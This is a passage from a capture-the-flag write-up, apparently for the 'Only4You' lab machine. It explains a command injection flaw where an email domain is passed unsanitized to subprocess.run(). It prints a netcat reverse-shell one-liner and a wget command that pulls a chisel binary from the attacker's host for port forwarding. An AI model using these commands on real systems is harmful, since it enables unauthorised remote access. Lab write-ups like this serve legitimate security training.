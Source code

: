 In order to check the introduced email address domain, this function executes an OS command using the python function “run()” (from subprocess library) passing it the domain part of the email address sent by the user without any sanitization. As a result, this code snippet is vulnerable to RCE, by adding ``` |<os-command-to-execute> ``` right after the email address.

To exploit it, a netcat reverse shell will be used ``` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP-ADDRESS> <ListenPort> >/tmp/f ```.

![image](images/Only4You/Imagen15.png)

![image](images/Only4You/Imagen16.png)

Once in the shell, machine connection state is checked using netcat. It turns out that there are some interesting listening ports: 3000, 7474, 7687, 8001, 33060.

![image](images/Only4You/Imagen17.png)

Ports 7474 and 7687 are the default Neo4J Database listening ports and 33060 is the default MySQL listening port. As shown in the pictures, user dev is the owner of the other two listening ports’ process.

To check this, it is necessary to use port forwarding technique and as there are no available SSH credentials, “chisel” tool will be used. 

I will use two Basic Server Listener in order to forward the traffic generated from the attacking machine to 3000 and 8001 ports in localhost. Here, I setup the chisel server on the attacker machine and allow reverse tunnels to be created from the client. After transferring chisel binary to the victim with ```wget http;//10.10.14.26:8000/chisel``` and allowing it to execute with ```chmod +x /tmp/chisel```
